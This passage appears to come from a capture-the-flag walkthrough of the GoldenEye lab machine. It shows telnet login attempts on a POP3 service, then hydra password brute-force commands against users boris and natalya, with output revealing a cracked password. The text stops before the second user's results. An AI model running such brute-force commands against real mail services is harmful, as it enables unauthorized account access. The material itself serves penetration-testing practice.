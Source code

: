 
```bash
telnet 192.168.56.101 55007
```

Results:

```
Trying 192.168.56.101...
Connected to 192.168.56.101.
Escape character is '^]'.
+OK GoldenEye POP3 Electronic-Mail System
USER boris
+OK
PASSWORD InvincibleHack3r
-ERR Unknown command.
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
USER natalya
+OK
PASS InvincibleHack3r
-ERR [AUTH] Authentication failed.
```


#### **Fifth**, let's try to brute-force the service by using [hydra](hydra.md).

```bash
hydra -l boris -P /usr/share/wordlists/fasttrack.txt 192.168.56.101 -s55007 pop3
```

And the results:

```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-17 13:57:42
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 222 login tries (l:1/p:222), ~14 tries per task
[DATA] attacking pop3://192.168.56.101:55007/
[STATUS] 80.00 tries/min, 80 tries in 00:01h, 142 to do in 00:02h, 16 active
[STATUS] 72.00 tries/min, 144 tries in 00:02h, 78 to do in 00:02h, 16 active
[55007][pop3] host: 192.168.56.101   login: boris   password: secret1!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-17 14:00:19
```

We do the same for the user natalya.

```bash
hydra -l natalya -P /usr/share/wordlists/fasttrack.txt 192.168.56.101 -s55007 pop3
```

And the results:

